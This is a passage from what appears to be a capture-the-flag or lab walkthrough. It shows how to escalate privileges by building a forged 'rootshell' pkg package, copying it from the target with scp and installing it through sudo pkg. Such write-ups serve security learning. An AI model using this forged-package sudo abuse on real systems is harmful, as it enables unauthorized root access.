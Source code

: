 We run the script and find on `/tmp/pkg` the compiled package.

![alt text](images/image-44.png)

We also need to create a package repository.

```bash
pkg repo .
```

![alt text](images/image-45.png)

On our local server we must create a `packages` directory, since `pkg` searches for the requested packages in it.

```
mkdir packages
```

We must now download the built package over SSH using the `scp` utility.

```bash
scp jamie@10.129.96.53:/tmp/pkg/* ./packages
```

![alt text](images/image-46.png)

Now all we have to do is update our repository sources and install our forged rootshell package!

```bash
sudo pkg update
sudo pkg install rootshell
```

